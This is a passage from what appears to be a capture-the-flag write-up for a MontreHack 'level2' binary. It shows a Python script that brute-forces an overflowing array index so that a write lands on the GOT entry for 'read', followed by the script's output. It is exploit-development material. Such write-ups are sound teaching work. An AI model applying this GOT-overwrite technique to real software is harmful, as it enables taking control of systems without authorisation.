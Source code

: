 ```python
    writeaddr = 0
    diff = 0
    
    while True:
        writeaddr = (BASE + (i * 0x88)) & 0xFFFFFFFF
        if writeaddr >=  TARGET:
            diff = writeaddr - TARGET
            if   diff <= 0x88:
                break
            else:
                i -= 1
        else:
            diff = TARGET - writeaddr
            if  diff <= 0x88:
                break
            else:
                i += 1
        
    
    print "i = %08x writeaddr =  %08x diff = %d" % (i, writeaddr, diff)
    n += 1
```

The script actually executes instantly, provided that our target address is near the base address 0x0804A100 which is the case for the GOT. Here is a part of the output for `read`.

```
ekse@montrehack:~/level2$ python map_address.py
i = -0000001 writeaddr =  0804a078 diff = 104
i = 01e1e1e1 writeaddr =  0804a088 diff = 120
i = 03c3c3c2 writeaddr =  0804a010 diff = 0
i = 05a5a5a3 writeaddr =  08049f98 diff = 120
i = 07878785 writeaddr =  08049fa8 diff = 104
i = 09696967 writeaddr =  08049fb8 diff = 88
i = 0b4b4b49 writeaddr =  08049fc8 diff = 72
i = 0d2d2d2b writeaddr =  08049fd8 diff = 56
i = 0f0f0f0d writeaddr =  08049fe8 diff = 40
i = 10f0f0ef writeaddr =  08049ff8 diff = 24
i = 12d2d2d1 writeaddr =  0804a008 diff = 8
i = 14b4b4b2 writeaddr =  08049f90 diff = 128
i = 16969694 writeaddr =  08049fa0 diff = 112
i = 18787876 writeaddr =  08049fb0 diff = 96
i = 1a5a5a58 writeaddr =  08049fc0 diff = 80
i = 1c3c3c3a writeaddr =  08049fd0 diff = 64
i = 1e1e1e1c writeaddr =  08049fe0 diff = 48
i = 1ffffffe writeaddr =  08049ff0 diff = 32
i = 21e1e1e0 writeaddr =  0804a000 diff = 16
i = 23c3c3c1 writeaddr =  08049f88 diff = 136
i = 25a5a5a3 writeaddr =  08049f98 diff = 120
i = 27878785 writeaddr =  08049fa8 diff = 104
i = 29696967 writeaddr =  08049fb8 diff = 88
i = 2b4b4b49 writeaddr =  08049fc8 diff = 72
i = 2d2d2d2b writeaddr =  08049fd8 diff = 56
i = 2f0f0f0d writeaddr =  08049fe8 diff = 40
i = 30f0f0ef writeaddr =  08049ff8 diff = 24
....
```
